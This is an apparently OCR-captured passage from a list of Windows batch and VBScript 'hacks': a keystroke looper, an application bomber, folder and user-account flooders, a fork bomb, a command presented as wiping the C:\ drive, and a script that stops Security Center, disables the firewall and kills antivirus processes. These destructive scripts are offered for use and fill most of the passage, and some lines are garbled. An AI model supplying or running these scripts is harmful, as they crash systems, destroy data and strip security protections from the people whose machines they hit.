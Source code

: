 Set wshShell = wscript.CreateObject(”WScript.Shell”)
 do
 wscript.sleep 100
 wshshell.sendkeys “~(enter)”
 loop
6. Application Bomber
It will start to open different applications repeatedly which will affect the system’s performance.

You can also add the application of your choice in the above code.

@echo off
 :x
 start winword
 start mspaint
 start notepad
 start write
 start cmd
 start explorer
 start control
 start calc
 goto x
7.Folder Flooder
This will create unlimited no. of folders.

@echo off
:x
md %random%
/folder.
goto x
8.User Account Flooder
This will create large no. of the user account on one’s PC and goes on

@echo off
:xnet
user %random% /add
goto x
9.Process Creator
This will create unlimited background processes

%0|%0
10.Windows Hacker
This will delete your whole C:\ drive and it really unrecoverable

@Echo off
Del C:\ *.* |y
10+. Anti Virus Disabler
This large code will disable any antivirus installed on the system

@ echo off
rem
rem Permanently Kill Anti-Virus
net stop “Security Center”
netsh firewall set opmode mode=disable
tskill /A av*
tskill /A fire*
tskill /A anti*
cls
tskill /A spy*
tskill /A bullguard
tskill /A PersFw
tskill /A KAV*
tskill /A ZONEALARM
tskill /A SAFEWEB
cls
tskill /A spy*
tskill /A bullguard
tskill /A PersFw